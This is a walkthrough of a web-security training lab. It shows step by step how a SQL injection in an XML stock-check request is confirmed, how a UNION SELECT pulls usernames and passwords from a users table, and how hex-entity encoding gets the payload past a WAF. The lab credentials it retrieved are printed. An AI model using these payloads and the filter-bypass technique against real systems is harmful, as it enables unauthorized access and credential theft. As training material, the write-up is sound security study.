 # Lab: SQL injection with filter bypass via XML encoding

## Lab

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

## Hint

A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this. 

## Solution

After view details in the end of web we have select options to select localtion to server check stock.

There is a XML format:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

__Return: 724 units__

In tag <storeId> inject `+1` after `1`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1+1
    </storeId>
</stockCheck>
```

__Return: 959 units__

So we confirm that we can inject query there.

Modify tag <storeId> to `<storeId>1 UNION SLECT username||'~'||password FROM users</storeId>`

__Return: "Attack detected"__

Because a WAF will block requests that contain obvious signs of a SQL injection attack. So we must bypass this by `Hackvertor` extension.

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>
            1 UNION SELECT username||'~'||password FROM users
        <@/hex_entities>
    </storeId>
    </stockCheck>
```

__Return: 
724 units
wiener~jy95yieqb1if6u2cmxe8
carlos~60dc8ocs0appjyntafh2
administrator~78fym7ek6kmpqz8uudb7__

So we solved this lab